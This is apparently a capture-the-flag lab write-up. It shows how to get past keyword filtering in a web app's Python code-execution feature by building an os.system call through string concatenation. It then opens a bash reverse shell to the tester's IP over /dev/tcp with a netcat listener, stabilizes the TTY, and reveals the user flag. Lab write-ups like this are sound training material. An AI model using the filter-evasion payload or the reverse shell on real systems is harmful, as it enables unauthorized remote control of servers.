








Because the homepage already allows direct code execution, registering is only useful if we want to store or manage our scripts. Our first step is to try importing common modules such as `os`, `write`, or `open`, since they are typically required to run system-level payloads.

However, it quickly becomes clear that the application enforces input filtering, blocking restricted keywords and preventing access to functions and modules considered dangerous.



This indicates that we must discover a method to work around the existing filters. After some research, we find the following code:
```bash
test = getattr(print.__self__, '__im'+'port__')('o'+'s')
getattr(test, 'sy'+'stem')('ping -c 1 10.10.16.63')
```
This code is used to send a ping from the web application to our machine. To capture it, we will start listening with `tcpdump` and specify that we only want to monitor ICMP traffic.
```bash
$ sudo tcpdump -n -i tun0 icmp
```
Ten we execute the python code and we will see if we recive a ping to our machine



It appears that nothing happened, but if we check our listener, we can see that the ping was successfully completed.



Knowing that we have the ability to execute commands remotely, we can open a Netcat listener and use a typical one-liner in our Python code to obtain a reverse shell.
```bash
$ nc -lvnp 9001
```


Now we make a  one-liner in bash
```bash
$  bash -c “bash -i >& /dev/tcp/10.10.16.63/9001 0>&1”
```
Now we will copy this line in our python code and run it



And we got a shell in our listener



Now we can perform TTY stabilization to avoid losing the reverse shell.
```bash
$ script /dev/null -c bash

$ ctrl+z

$ stty raw -echo; fg

$ reset xterm

$ export TERM=xterm
```



Now if we navigate through the directories, we will find the user flag



```bash
User Flag → 5a34204a169b58c7f5a9b7e8997c6565
```


[Back](README.md)